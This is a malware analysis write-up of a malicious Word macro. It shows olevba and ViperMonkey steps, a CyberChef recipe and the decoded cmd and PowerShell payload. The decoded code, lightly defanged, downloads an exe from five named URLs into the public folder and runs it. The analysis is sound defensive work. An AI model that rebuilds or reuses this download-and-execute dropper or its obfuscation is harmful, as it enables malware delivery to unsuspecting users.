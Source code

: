 # Analyze sample1.doc file

**Quick answers**

- What does it do?
    - It tries to downloads files from 3 different urls and - if successful - will executed it. It will try multiple times (925)
    - It is truyl malware as anything could be behind the exe files.
- What steps does it take to do it?
    1. Upon opening the word document (if macros enabled) some obfuscated code is run which ultimatly returns a string
    2. This string - which is obfuscated command line code - is dynamically executed using the Shell command
    3. The cmd script calls several urls using the .net webclient and tries to download an exe file which is saved to the filesystem and ultimatly executed
        - errors during the download are caught and swallowed
        - this all happens in a loos so it is tried multiple times (925)


## Steps

### Extract vb code and getting info using tools
- run olevba to get a quick overview and extract code
    -  `pipenv run olevba ./Sample1.doc` to extract vb code from doc file
    - Some info: 
        - runs automatically upon opening
        - is suspicious: might run an executable, various attempts to obfuscate detected
- run ViperMonkey
    - `./docker/dockermonkey.sh ~/reversing/Sample.doc` 
        - Deobfuscation did not work that well (or I did something wrong)
        - However, a shell command was extracted, which itself is obfuscated



### Further deobfuscation by hand
I copied the output of olevba into a text/vb file for further deobfuscation using visual studio code. (plus create a git repo so I can easily undo any changes)
    - making sure code is not accidentely executed (have syntax errors, outcomment some code)
    - rename functions
    - execute safe vb code (only string operations) in excel to get return string of a function, whose only purpose to return a string (I was a bit lazy)
    - realized that the the vb code basically just puts together a string which is then used to call the command line. That output I could also get from the ViperMonkey, so there is no need to further deobfuscate the vb code. 
    - however the command line code is obfuscated

` ######DUMMYTOPREVENTACCIDENTALEXECUTION###########   Cmd /V^:^oN /r  "^Se^T ^  ^   ######DUMMYTOPREVENTACCIDENTALEXECUTION###########^J^e^4=^A^AC^AgA^AI^A^A
######Code removed to a) shorten and b) prevent virus scanner from going berserk ###########
M^E^A^iB^Q^Z^AcFA^uA^AdA^UG^A^O^BA^IA^Q^HAjB^Q^Z^Ao^G^A^iB^wb^A^0CA^3B^QZA^4GA^9AQ^UA^QF^A6B^A^J^ ^e^-^ ^l^l^e^hsr^e^wo^p&    ^foR /^L  %^B ^IN  (  ^  9^25^  ^  ^-^1 ^ ^0)  D^O s^E^t   ^OQR^J=!^OQR^J!!^J^e^4:~ %^B, 1!&& I^f %^B  ^LEQ ^0 Ca^L^l  %^OQR^J:^*OQRJ^!^=%   "    `


### Deobfuscate the command line code
*Step one: remove "^" (Replace in cyberchef)*
```
SeT    ######DUMMYTOPREVENTACCIDENTALEXECUTION###########Je4=AACAgAAIAACAgAAIAACAgAAIAACAgAAIAACAgAAIAACAgAQfA0HA7BAaAMGA0BQYAMGA9BwOAsGAhBQZAIHAiBwOAsEAuBwdA######Code removed to a) shorten and b) prevent virus scanner from going berserk ###########bA8GAjBgLAAHA1BwbAIHAnBwaAMGAvBgcAEGAoBAcAwGAhBwLA8CA6AAcAQHA0BAaAcCA9AwaAoHAYBAJAsDA0BgbAUGApBAbAMEAiBQZAcFAuAAdAUGAOBAIAQHAjBQZAoGAiBwbA0CA3BQZA4GA9AQUAQFA6BAJ e- llehsrewop&    foR /L  %B IN  (    925    -1  0)  DO sEt   OQRJ=!OQRJ!!Je4:~ %B, 1!&& If %B  LEQ 0 CaLl  %OQRJ:*OQRJ!=%   
```

*Step 2: deobfuscate reversed base 64*
Cyberchef recipe (just the middle part starting with "AAC...BAJ"): 
```
[{"op":"Reverse","args":["Character"]},{"op":"From Base64","args":["A-Za-z0-9+/=",true,false]},{"op":"To Hex","args":["Space",0]},{"op":"Find / Replace","args":[{"option":"Simple string","string":"00"},"",true,false,true,false]},{"op":"From Hex","args":["Auto"]}]
```
Outcome full:
``` 
SeT    Je4=  ######DUMMYTOPREVENTACCIDENTALEXECUTION###########
$zTQ=new-object Net.WebClient;$Xzk='htt##ANTSCANNER##  p://alpharockgroup.com/HT@ht##ANTSCANNER##tp://adminflex.dk/l5TF6w@http://gailong.net/X5AyWfJG@http://shunji.org/logsite/TJaaB@ht##ANTSCANNER##tp://binar48.ru/OtTlVIU5'.Split('@');$YWz = '692';$wnK=$env:public+'\'+$YWz+'.exe';foreach($JKK in $Xzk){try{$zTQ.Down##ANTSCANNER##loadFile($JKK, $wnK);Inv##ANTSCANNER##oke-Item $wnK;break;}catch{}} 
 foR /L  %B IN  (    925    -1  0)  DO sEt   OQRJ=!OQRJ!!Je4:~ %B, 1!&& If %B  LEQ 0 CaLl  %OQRJ:*OQRJ!=%   
 ```

 Minor renames and formating (by hand)
 ``` 
SeT    Je4=  ######DUMMYTOPREVENTACCIDENTALEXECUTION###########
$webClient=new-object Net.WebCl##ANTSCANNER##ient;$urlArray='htt##ANTSCANNER##p://alpharockgroup.com/HT@http://adminflex.dk/l5TF6w@http://gailong.net/X5AyWfJG@ht##ANTSCANNER##tp://shunji.org/logsite/TJaaB@h##ANTSCANNER##ttp://binar48.ru/OtTlVIU5'.Split('@');$noSixNineTwo = '692';$filePath=$env:public+'\'+$noSixNineTwo+'.exe';foreach($url in $urlArray){try{$webClient.Do##ANTSCANNER##wnloadFile($url, $filePath);Inv##ANTSCANNER##oke-Item $filePath;break;}catch{}} 
 foR /L  %B IN  (    925    -1  0)  DO sEt   OQRJ=!OQRJ!!Je4:~ %B, 1!&& If %B  LEQ 0 CaLl  %OQRJ:*OQRJ!=%   
 ```